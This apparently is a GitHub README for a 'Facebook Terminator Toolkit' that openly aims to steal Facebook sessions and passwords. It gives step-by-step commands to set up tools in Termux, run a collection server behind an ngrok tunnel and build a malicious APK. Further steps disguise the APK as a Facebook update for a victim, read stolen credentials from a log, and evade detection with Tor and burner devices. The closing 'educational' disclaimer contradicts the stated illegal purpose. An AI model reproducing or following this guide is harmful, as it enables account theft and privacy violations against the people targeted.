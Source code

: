 # Facebook Terminator Toolkit 
**Steal Facebook sessions + passwords (rooted devices)**  

⚠️ **WARNING**: Illegal activity. Use Tor/VPN. Burner devices only.  

---

## 🔧 Installation Guide  

### 📲 **Termux Setup**  
1. Install Termux from **[F-Droid](https://f-droid.org/)** (*NOT Google Play*)  
2. Run these commands:  
```bash  
termux-setup-storage  
termux-change-repo  
pkg update -y  
pkg install git wget openjdk-17 unzip -y


## 🛠️ **Tool Setup**  

### 1️⃣ Install APKTOOL  
```bash  
wget https://raw.githubusercontent.com/iBotPeaches/Apktool/master/scripts/linux/apktool  
wget https://bitbucket.org/iBotPeaches/apktool/downloads/apktool_2.9.3.jar  
mv apktool_2.9.3.jar apktool.jar  
chmod +x apktool*  
mv apktool* $PREFIX/bin  
```

### 2️⃣ Install Ngrok (For Tunneling)  
```bash  
wget https://bin.equinox.io/c/bNyj1mQVY4c/ngrok-v3-stable-linux-arm.tgz  
tar xvf ngrok-v3-stable-linux-arm.tgz  
chmod +x ngrok  
mv ngrok $PREFIX/bin  
```

### 3️⃣ Android SDK Tools  
```bash  
pkg install aapt dx ecj -y  
```

### 4️⃣ Clone Repository  
```bash  
git clone https://github.com/Veran350/FB_TERMINATOR  
cd FB_TERMINATOR  
mkdir -p server apk_out  
```

---

## 🚀 **Usage**  

### 1️⃣ Prepare Scripts  
```bash  
chmod +x termux/*  
```

### 2️⃣ Start Server & Ngrok  
```bash  
./termux/SERVER_KILLER.sh  
```  
*Wait for Ngrok URL to appear (e.g., `https://abcd.ngrok.io`)*  

### 3️⃣ Build Malicious APK  
```bash  
./termux/AUTO_DEPLOY.sh  
```  
*APK will be in: `apk_out/FB_Signed.apk`*  

### 4️⃣ Share APK with Victim  
```bash  
cp apk_out/FB_Signed.apk /sdcard/Download/Facebook_Update.apk  
```

---

## 📁 **Stolen Data**  
View stolen credentials:  
```bash  
cat server/stolen_data.log  
```

---

## ❓ **FAQ**  
**Q:** Getting "Package not found" errors?  
**A:** Run `termux-change-repo` and select "Mirrors by Grimler"  

**Q:** Ngrok not working?  
**A:** Get auth token from [ngrok.com](https://dashboard.ngrok.com/get-started/your-authtoken) → Run `ngrok config add-authtoken YOUR_TOKEN`  

**Q:** APK fails to install?  
**A:** Enable "Unknown Sources" in victim's phone settings  

---

**⚠️ DISCLAIMER**: This tool is for educational purposes only. I take NO responsibility for your actions.  
``` 
